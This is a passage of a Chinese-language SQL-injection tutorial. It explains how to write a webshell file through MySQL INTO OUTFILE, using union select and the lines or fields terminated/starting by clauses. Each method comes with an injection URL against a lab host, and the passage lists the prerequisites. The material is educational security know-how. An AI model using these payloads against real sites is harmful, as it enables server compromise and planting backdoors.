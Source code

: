 ```
        ),
        1
    )
```

具体的分析可以看看当年的官方WP：[RCTF 2021 Official Writeup](https://blog.rois.io/2021/rctf-2021-official-writeup-2/#EasySQLi)

# sql注入getshell

**前提：**

- 存在SQL注入漏洞
- web目录具有写入权限
- 找到网站的绝对路径
- secure_file_priv没有具体值（secure_file_priv是用来限制load dumpfile、into outfile、load_file()函数在哪个目录下拥有上传和读取文件的权限。）

## union select写入

```
http://172.16.55.130/work/sqli-1.php?id=@ union select 1,2,3,4,'<?php phpinfo() ?>' into outfile 'C:/wamp64/www/work/WebShell.php'
```

## lines terminated by 写入

```
http://172.16.55.130/work/sqli-1.php?id=1 into outfile 'C:/wamp64/www/work/Webshell.php' lines terminated by '<?php phpinfo() ?>';
原理：通过select语句查询的内容写入文件，也就是 1 into outfile 'C:/wamp64/www/work/webshell.php' 这样写的原因，然后利用 lines terminated by 语句拼接webshell的内容。lines terminated by 可以理解为 以每行终止的位置添加 xx 内容。
```

## lines starting by 写入

```
http://172.16.55.130/work/sqli-1.php?id=1 into outfile 'C:/wamp64/www/work/webshell.php' lines starting by '<?php phpinfo() ?>';
#原理：利用 lines starting by 语句拼接webshell的内容。lines starting by 可以理解为 以每行开始的位置添加 xx 内容。
```

## fields terminated by 写入

```
http://172.16.55.130/work/sqli-1.php?id=1 into outfile 'C:/wamp64/www/work/webshell.php' fields terminated by '<?php phpinfo() ?>';
#利用 fields terminated by 语句拼接webshell的内容。fields terminated by可以理解为以每个字段的位置添加 xx 内容。
```

# 2.非常规注入
